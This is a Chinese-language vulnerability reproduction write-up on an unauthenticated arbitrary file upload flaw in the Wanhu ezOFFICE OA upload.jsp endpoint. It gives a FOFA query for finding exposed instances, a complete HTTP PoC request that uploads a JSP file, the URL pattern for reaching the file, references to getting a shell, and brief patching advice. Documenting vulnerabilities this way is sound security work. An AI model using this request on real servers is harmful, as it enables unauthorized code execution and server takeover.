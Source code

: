 
# 万户 OA upload 任意文件上传漏洞复现

### 0x01 产品简介

   万户[OA](https://so.csdn.net/so/search?q=OA&spm=1001.2101.3001.7020) ezoffice 是万户网络协同办公产品多年来一直将主要精力致力于中高端市场的一款 OA 协同办公软件产品，统一的基础管理平台，实现用户数据统一管理、权限统一分配、身份统一认证。统一规划门户网站群和协同办公平台，将外网信息维护、客户服务、互动交流和日常工作紧密结合起来，有效提高工作效率。

### 0x02 漏洞概述

 万户 ezOFFICE 协同管理平台 upload 接口处存在任意[文件上传漏洞](https://so.csdn.net/so/search?q=%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，未经身份认证的攻击者可以通过此漏洞上传恶意后门文件，造成代码执行或服务器失陷。

### 0x03 复现环境

FOFA：app="万户 ezOFFICE 协同管理平台"

![](assets/1700528571-b74744b0203ea46319a9f4f3f352dd7f.png)

### 0x04 漏洞复现 

PoC

```http
POST /defaultroot/platform/portal/layout/common/upload.jsp?portletSettingId=123&path=abc HTTP/1.1
Host: {{Hostname}}
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/119.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=b0d829daa06c13d6b3e16b0ad21d1eed

--b0d829daa06c13d6b3e16b0ad21d1eed
Content-Disposition: form-data; name="file"; filename="1.jsp"
Content-Type: application/octet-stream

<%out.print("test");%>
--b0d829daa06c13d6b3e16b0ad21d1eed--
```

![](assets/1700528571-1fedb6d29f9954fb2c56b14240f3d29d.png)

验证 url

```http
http://your-ip/defaultroot/upload/abc(path参数的值)/202311(现年月)/(返回的文件名).jsp
```

![](assets/1700528571-51647ac08c844d4fcfd03fccc4acbc78.png)

GetShell 

![](assets/1700528571-4a267ccd982a173c2d7235157ac63492.png)

尝试连接 

![](assets/1700528571-274f57c8fe17b8e8ca2deef2a48c2bd1.png)

### 0x05 修复建议

关闭互联网暴露面或接口处设置访问权限

打补丁或升级安全版本
